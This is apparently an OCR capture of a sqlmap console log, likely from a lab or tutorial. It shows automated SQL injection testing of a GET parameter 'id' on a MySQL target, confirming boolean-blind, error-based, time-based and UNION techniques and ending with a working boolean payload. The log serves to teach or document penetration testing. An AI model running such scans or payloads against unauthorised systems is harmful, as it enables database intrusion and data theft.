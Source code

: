 
[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL &gt;= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL &gt;= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL &gt;= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL &gt;= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL &gt;= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL &gt;= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

